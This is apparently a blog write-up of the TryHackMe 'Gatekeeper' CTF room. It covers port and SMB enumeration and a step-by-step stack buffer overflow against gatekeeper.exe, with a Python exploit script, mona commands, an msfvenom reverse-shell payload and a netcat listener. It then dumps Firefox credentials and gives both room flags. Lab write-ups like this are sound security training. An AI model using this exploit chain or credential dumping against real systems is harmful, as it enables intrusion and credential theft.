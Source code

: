 ```yaml
---
title: Gatekeeper Write-up | TryHackMe
slug: gatekeeper
author: Utkarsh M
date: '2022-06-13'
categories:
  - TryHackMe
tags:
  - write up
  - tryhackme
  - ctf
  - hard
  - red team

---
```


![screenshot](/assets/img/thm/gatekeeper/1.png)

Can you get past the gate and through the fire?

---

Running threader3000 scan:

```bash
python threader3000
10.10.160.254
```

![screenshot](/assets/img/thm/gatekeeper/2.png)

Running the suggested nmap scan:

```bash
nmap -p139,135,445,3389,31337,49167,49154,49152,49153,49163,49155 -sV -sC -T4 -Pn -oA 10.10.160.254 10.10.160.254
```

![screenshot](/assets/img/thm/gatekeeper/3.png)

![screenshot](/assets/img/thm/gatekeeper/4.png)

![screenshot](/assets/img/thm/gatekeeper/5.png)

:) Hmm, So many ports.

So we have a smb server at `139/445`, Unknown host with text `Elite` on 31337(upon connecting with netcat gives echo text).

so theres a interesting url in nmap result which we need to find on how to access.

```bash
GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
```

checking the smb for a while:

enumerating the directories :)

```shell
smbclient -N -L \\10.10.160.254
```

![screenshot](/assets/img/thm/gatekeeper/6.png)

trying to access Users directory without password:

```shell
smbclient -N //10.10.160.254/Users
```

found `gatekeeper.exe`, downloading it using get:

![screenshot](/assets/img/thm/gatekeeper/7.png)

after downloading gatekeeper. :) turning on windows VM and copying the file there.

launching the program in immunity debugger and testing it for buffer overflows.

First, lets setup mona for easier exploitation:

```shell
!mona config -set workingfolder c:\mona\%p
```

for finding the offset:

lets generate pattern using pattern_create.rb from metasploit and use it as a payload ;-; to find the offset.

```shell
/opt/metasploit-git/tools/exploit/pattern_create.rb -l length
```

The program crashes at length: `200`.

finding the offset using mona:

```shell
!mona findmsp -distance 200
```

Offset:`146`

We need to create a script.

```python
import socket
import struct
TCP_IP = '192.168.122.138'
TCP_PORT = 31337
BUFFER_SIZE = 1024
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
payload = ""
overflow = "A"*146
retn = "BBBB"
padding = ""#"\x90"*16
msg = overflow + retn + padding + payload +"\n"
s.send(bytes(msg, "latin-1"))
s.close()
print( "done")
```

this will set the retn(EIP) value to `BBBB` (`0x42424242`)

lets check for badchars now.

generate bytearray in mona:

```shell
!mona bytearray -b "\x00"
```

generating ;-; chars using a python script:

```python
for x in range(1, 256):
print("\\x" + "{:02x}".format(x), end='')
print()
```

using it as the payload:

comparing bytes using mona:

```shell
!mona compare -f "c:\mona\gatekeeper\bytearray.bin" -a 007319E4
```

![screenshot](/assets/img/thm/gatekeeper/8.png)

we can see that `\x0a` is a bad character too. generating byte array without it:

```shell
!mona compare -f "c:\mona\gatekeeper\bytearray.bin" -a 007319E4
```

After removing the character from the payload and sending it.

we can compare characters again using mona. Which gives us:

![screenshot](/assets/img/thm/gatekeeper/9.png)

:) So we now have the badchars, lets find JMP ESP instruction that isn’t under ASLR using mona:

```shell
!mona jmp -r esp -cpb "\x00\x0a"
```

![screenshot](/assets/img/thm/gatekeeper/10.png)

changing retn value to `\xc3\x14\x04\x08` in the python script.(little endian, `0x080414c3`)

Lets generate a reverse shell code for x86 windows machine using msfvenom.

![screenshot](/assets/img/thm/gatekeeper/11.png)

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=MY_MACHINE_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

using it as a payload and a NOP padding of 16.

setting up a listener :)

```shell
nc -lvnp 4444
```

lets try to gain a reverse shell on our VM:

![screenshot](/assets/img/thm/gatekeeper/12.png)

Hmm :) success. Now lets try it on the tryhackme’s machine.

success:

![screenshot](/assets/img/thm/gatekeeper/13.png)

Getting our first flag:

```
{H4lf_W4y_Th3r3}
```

:) So, We mostly need to gain local privileges to the account Mayor.

lets do some enumeration:

using windows exploit suggester 2.0;

```shell
python2 windows-exploit-suggester.py --database 2022-06-13-mssb.xls --systeminfo mew.txt
```

;-; trying out few exploits:-

![screenshot](/assets/img/thm/gatekeeper/14.png)

Hmm, Tried few others which failed too, :-; including getsystem of meterpreter.(;-; I tried winpeas too which didn’t give me much helpful info)

got a hint from discord to check about firefox creds.

Found this resource about dumping firefox credentials: [link](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-steal-decrypt-passwords-stored-chrome-firefox-remotely-0183600/)

downloading the files as per given in the link and renaming. :) we get some credentials.

![screenshot](/assets/img/thm/gatekeeper/15.png)

We can try to use this to access smb and directly just get the flag. :)

```shell
smbclient //10.10.160.254/Users -U mayor
```

![screenshot](/assets/img/thm/gatekeeper/16.png)

The final flag:

```
{Th3_M4y0r_C0ngr4tul4t3s_U}
```
